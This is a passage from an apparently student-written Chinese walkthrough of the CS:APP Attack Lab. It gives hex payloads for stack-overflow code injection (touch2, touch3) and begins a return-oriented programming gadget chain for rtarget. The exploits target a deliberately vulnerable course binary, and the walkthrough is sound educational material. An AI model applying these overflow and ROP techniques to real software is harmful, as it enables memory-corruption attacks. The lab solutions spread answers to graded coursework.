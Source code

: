 其值为 `0x5561dc78`

于是，我们可以写出指令序列为：

```asm
48 c7 c7 fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55
```

### touch3

与 `touch2` 的任务类似，但我们需要传入的是 `cookie` 的字符串形式，而非一个立即数，因此，我们需要查询 `0x59b997fa` 的 `ascii` 形式怎么表示（不需要 `0x` ）

其字符串表示为 ： `35 39 62 39 39 37 66 61 00` （注意，我们需要在末尾加上 `'\0'`

我们可以轻松写出如下汇编：

```asm
HELLO_WORLD = "59b997fa"

movq HELLO_WORLD, %rdi
push $0x4018fa
ret

```

需要解决的问题实际上只有一个，`HELLO_WORLD` 到底应该存在什么位置（也就是指针应该是多少）

考虑 `touch2` ，我们显然可以把这个指针设置成 `%rsp` 的偏移量，由于我们知道 `%rsp` 的值，那么就很轻松能够算出来这个指针了。于是，我们的机器码如下：

```asm
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

注意这里的 `0x5561dca8` 就是字符串的指针，计算方式为 `%rsp + 0x30` (由于`buf` 占据 $40$ 个字节， 而返回地址占 $8$ 字节，占 $8$ 字节的原因是需要对齐，因此总共占据 $48$ 字节)

## rtarget

### touch2

显然，我们需要找到 `cookie` 存放的位置，并将其移动到 `%rdi` 之中，然后调用 `ret` 来跳转到 `touch2` 的位置，我们可以将 `cookie` 的值置于栈顶，然后通过 `pop` 指令弹出到一个寄存器中（如果可以直接弹出到 `%rdi` 的话就完美了，否则我们还需要一次 `mov` 指令）

查表可以发现，无法在 `farm` 中找到 `5f`，但可以找到 `58`（也只有 `58`），于是，我们可以找到如下指令：

```asm
popq %rax
retq
movq %rax, %rdi
retq
```
